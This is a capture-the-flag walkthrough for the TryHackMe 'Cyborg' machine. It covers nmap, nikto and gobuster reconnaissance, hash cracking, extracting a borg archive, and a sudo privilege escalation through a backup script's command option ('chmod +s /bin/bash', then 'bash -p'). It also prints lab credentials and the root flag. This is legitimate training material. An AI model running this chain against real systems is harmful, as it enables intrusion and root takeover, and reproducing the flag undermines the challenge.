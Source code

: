 > Cyborg

**export IP=10.10.66.158**

# Nmap

nmap -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp    open     ssh        syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http       syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

# Nikto

nikto -h http://$IP

```
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ /admin/index.html: Admin login page/section found.
```

# Gobuster

gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster/initial -x txt,php,bak,tar,cgi,sql,bin

```
/admin (Status: 301)
/etc (Status: 301)
```

In /etc folder we got 2 files `passwd` and `squid.conf`. `passwd` file has hash of music_archive and squid.conf is a config file. After cracking using hashcat we can find the password as `squidward`.

## squid.conf

```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

While checking out /admin directory we got an archive and extracting it we can see `home/field/dev/final_archive` and can find a `README.md` file. And find that it is a borg directory. We can download a borg64 binary and can extract the archive.

borg extract final_archive/::music_archive => We got the archive using password `squidward`

Looking at `~/TryHackMe/Cyborg/home/field/dev/home/alex/Documents` we get note.txt

## note.txt

```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

# Privilege Escalation

sudo -l

```
User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

## backup.sh

```
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```

We can find that we can use option c to extecute commands.

sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"

`bash -p` we are in now as root!!

# root.txt

```
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```